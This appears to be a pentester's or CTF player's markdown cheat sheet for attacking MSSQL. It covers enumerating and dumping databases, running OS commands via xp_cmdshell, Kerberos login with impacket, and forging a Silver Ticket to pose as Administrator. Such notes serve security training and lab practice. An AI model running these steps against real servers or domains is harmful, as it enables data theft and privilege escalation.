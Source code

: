 # MSSQL
Get databases:
```
select name from sys.databases;
```
Get tables from the given database:
```
select TABLE_NAME from <DB-name>.INFORMATION_SCHEMA.TABLES;
```
Dump data from the table
```
select * from <db-name>..<table-name>;
```
```
select * from <db-name>.dbo.<table-name>;
```




# `sqsh`

# Command Injection
```
xp_cmdshell "whoami"
go
```
If it doesn't work
```
enable xp_cmdshell
```

## Authenticate with Kerberos
- (Include Kerberos TGT - it is explained in `Active Directory.md`)
- Create TGT
```
impacket-gettgt domain.local/username:password
```
- Export TGT
```
export KRB5CCNAME=outputfilename.cache
```
- Verify it
```
klist
```
- Login MS SQL service
```
impacket-mssqlclient dc01.domain.local -k
```

## Creating Silver Ticket for Authentication
- Get user SID for gaining Domain SID
- You can get it via ldap (check ippsec Scrambled 21:00)
```
impacket-getpac adminsitrator domain.local/username:password
```
- Create ticket
```
impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -user-id 500 Administrator -nthash <lowercase-ntlm-hash> -domain-sid <S-1-5-...> -domain scrm.local
```
- `500`: Administrator ID


- Add ticket
```
export KRB5CCNAME=Administrator.ccache
```
- Verify
```
klist
```
